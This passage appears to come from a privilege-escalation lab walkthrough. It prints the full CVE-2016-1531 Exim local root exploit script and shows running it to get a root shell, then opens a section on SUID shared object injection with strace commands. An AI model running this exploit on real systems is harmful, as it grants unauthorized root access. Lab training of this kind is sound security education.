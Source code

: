 Let's check the code of the exploit:

```bash
user@debian:~$ cat /home/user/tools/suid/exim/cve-2016-1531.sh
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
# ===============================================
# you can write files as root or force a perl module to
# load by manipulating the perl environment and running
# exim with the "perl_startup" arguement -ps. 
#
# e.g.
# [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
# [ CVE-2016-1531 local root exploit
# sh-4.3# id
# uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
# 
# -- Hacker Fantastic 
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```

Execute it:

```bash
user@debian:~$ sh /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)
```

# [Task 12] SUID / SGID Executables - Shared Object Injection

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

```bash
/usr/local/bin/suid-so
```

Run strace on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.
